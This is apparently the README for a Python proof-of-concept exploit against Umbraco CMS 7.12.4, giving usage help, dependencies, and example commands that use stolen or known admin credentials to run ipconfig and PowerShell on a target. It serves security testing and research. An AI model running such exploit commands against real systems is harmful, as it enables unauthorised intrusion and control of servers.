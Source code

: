 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Requirements

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/index.html)
- [Requests](https://requests.readthedocs.io/en/master/)


`pip3 install -r requirements.txt`

Example for ArchLinux:

```
pacman -S python-beautifulsoup4 python-requests
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments (instead of harcoded values) and with stdout display.

Tested with python 3.8.
